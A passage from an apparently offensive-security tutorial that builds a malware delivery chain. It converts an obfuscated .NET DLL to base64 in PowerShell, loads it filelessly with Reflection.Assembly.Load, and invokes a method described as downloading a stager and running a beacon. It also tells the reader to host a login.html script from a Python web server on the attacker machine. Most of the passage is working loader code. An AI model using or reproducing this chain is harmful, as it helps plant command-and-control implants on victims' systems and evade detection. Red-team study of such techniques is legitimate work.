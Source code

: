 Finally, protect the assembly.

<img src="/images/2024-06-27-imgs/24-protect.png" alt="">

We have our assembly ready but first, we need to set up our PowerShell and VBScript code. For the PowerShell, first, we need to load the assembly, convert it to base64, and get that output.

```powershell
[string]$assemblyPath = "C:\srueitsno\iao\iao\bin\Release\stnioeuri\iao.dll"
$assemblyBytes = [System.IO.File]::ReadAllBytes($assemblyPath)
[string]$dll = [System.Convert]::ToBase64String($assemblyBytes)
$dll
```

Copy that base64 output and use it as the DLL variable here. We will load directly the DLL from that base64 and execute the method to download the stager and run our beacon.
```powershell
$dll="Thebase64code"
$assemblyBytes = [System.Convert]::FromBase64String($dll)
[System.Reflection.Assembly]::Load($assemblyBytes)
[LetsDoit]::LetsDoitGo()
```

Now in the attacker machine, create a _www_ save this script as _login.html_, and start a Python http server from that directory.
